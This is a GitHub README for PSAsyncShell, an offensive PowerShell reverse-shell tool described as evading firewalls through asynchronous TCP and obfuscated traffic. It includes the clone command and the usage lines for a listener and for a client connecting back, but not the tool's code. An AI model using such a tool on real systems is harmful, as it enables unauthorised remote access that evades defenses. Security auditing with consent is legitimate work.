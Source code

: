 <p align="center"><img width=600 alt="PSAsyncShell" src="https://github.com/JoelGMSec/PSAsyncShell/blob/main/PSAsyncShell.png"></p>

# PSAsyncShell
**PSAsyncShell** is an Asynchronous TCP Reverse Shell written in pure PowerShell. 

Unlike other reverse shells, all the communication and execution flow is done asynchronously, allowing to bypass some firewalls and some countermeasures against this kind of remote connections.

Additionally, this tool features command history, screen wiping, file uploading and downloading, information splitting through chunks and reverse Base64 URL encoded and obfuscated traffic.


# Requirements
- PowerShell 4.0 or greater


# Download
It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:
```
git clone https://github.com/JoelGMSec/PSAsyncShell
```


# Usage
```
.\PSAsyncShell.ps1 -h

  ____  ____    _                         ____  _          _ _
 |  _ \/ ___|  / \   ___ _   _ _ __   ___/ ___|| |__   ___| | |
 | |_) \___ \ / _ \ / __| | | | '_ \ / __\___ \| '_ \ / _ \ | |
 |  __/ ___) / ___ \\__ \ |_| | | | | (__ ___) | | | |  __/ | |
 |_|   |____/_/   \_\___/\__, |_| |_|\___|____/|_| |_|\___|_|_|
                         |___/

  ---------------------- by @JoelGMSec -----------------------

 Info:  This tool helps you to get a remote shell
        over asynchronous TCP to bypass firewalls

 Usage: .\PSAsyncShell.ps1 -s -p listen_port
          Listen for a new connection from the client

        .\PSAsyncShell.ps1 -c server_ip server_port
          Connect the client to a PSAsyncShell server

 Warning: All data will be sent unencrypted
          Upload function doesn't use MultiPart

```

### The detailed guide of use can be found at the following link:

https://darkbyte.net/psasyncshell-bypasseando-firewalls-con-una-shell-tcp-asincrona


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
This tool has been created and designed from scratch by Joel Gámez Molina // @JoelGMSec


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can find me on Twitter as [@JoelGMSec](https://twitter.com/JoelGMSec) and on my blog [darkbyte.net](https://darkbyte.net).


# Support
You can support my work buying me a coffee:

[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png">](https://www.buymeacoffee.com/joelgmsec)

